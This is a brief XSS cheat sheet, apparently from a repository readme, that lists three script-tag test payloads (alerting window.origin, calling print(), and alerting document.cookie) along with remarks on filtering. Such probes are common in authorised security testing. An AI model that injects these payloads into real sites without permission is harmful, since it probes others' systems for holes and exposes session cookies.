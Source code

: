 
(Potentially blocked in some locations)
```html
<script>alert(window.origin)</script>
```
(Most likely not blocked on any page)
```html
<script>print()</script>
```
Get cookie
```html
<script>alert(document.cookie)</script>
```


